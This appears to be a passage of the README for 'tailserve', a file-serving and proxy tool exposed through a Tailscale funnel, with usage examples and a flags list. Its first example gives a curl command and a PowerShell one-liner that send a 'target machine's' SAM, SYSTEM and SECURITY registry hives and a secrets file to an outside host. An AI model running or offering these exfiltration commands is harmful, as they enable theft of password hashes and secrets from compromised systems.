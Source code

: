 **Upload data from target machine to password protected funnel from PowerShell:**

```powershell
# Using curl exfiltrate SAM, SYSTEM & SECURITY registry hives
curl.exe -u admin:admin1234 -F "files[]=@SAM" -F "files[]=@SYSTEM" -F "files[]=@SECURITY" "https://host.tailnet.ts.net/?upload=1"

# Using PowerShell exfiltrate secrets file
Add-Type -AssemblyName System.Net.Http;$u="admin";$p="admin1234";$f="secrets.txt";$url="https://host.tailnet.ts.net/?upload=1";$b=[Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes("$u`:$p"));$c=New-Object System.Net.Http.HttpClient;$m=New-Object System.Net.Http.MultipartFormDataContent;$s=New-Object System.Net.Http.StreamContent([IO.File]::OpenRead($f));$m.Add($s,"files[]",[IO.Path]::GetFileName($f));$c.DefaultRequestHeaders.Authorization=New-Object System.Net.Http.Headers.AuthenticationHeaderValue("Basic",$b);($c.PostAsync($url,$m).Result).Content.ReadAsStringAsync().Result
```

**Debug API traffic during testing:**

```bash
# Proxy API with full request/response logging
tailserve -l api-debug.log -vv -P https://target-api.com -a tester:pass123
```

**Add authentication to unauthenticated internal service:**

```bash
# Wrap internal tool with basic auth
tailserve -P http://internal-tool:8080 -a admin:secure123 -f
```

## Health check

`GET /_tailserve/health` returns a minimal JSON body for monitoring.

```json
{"status":"ok","timestamp":"..."}
```

## Flags overview

```text
Server Configuration:
  -p, --port PORT              Port (default 8000)
  -H, --host HOST              Bind address (default 0.0.0.0)
  -d, --directory DIR          Document root (default cwd)
  -i, --index FILE             Index file (default index.php)

Routing & Content:
  -m, --mode MODE              index | spa | api | all404 | directory
  -D, --serve-directory        Shortcut for directory mode
      --custom-404 PATH        Custom 404 page template

Proxy Configuration:
  -P, --proxy URL              Enable proxy mode to target URL
      --proxy-preserve-host    Preserve Host header when proxying

Authentication & Security:
  -a, --auth USER:PASS         Basic auth
      --no-security-headers    Disable hardened headers
  -r, --rate-limit N           Requests per minute per IP
      --bind-localhost-only    Bind to 127.0.0.1 only

CORS Configuration:
  -C, --cors                   Enable CORS
      --cors-origins ORIGINS   Comma‑separated allow‑list

Logging & Output:
  -l, --log-file PATH          Log to file (no ANSI)
```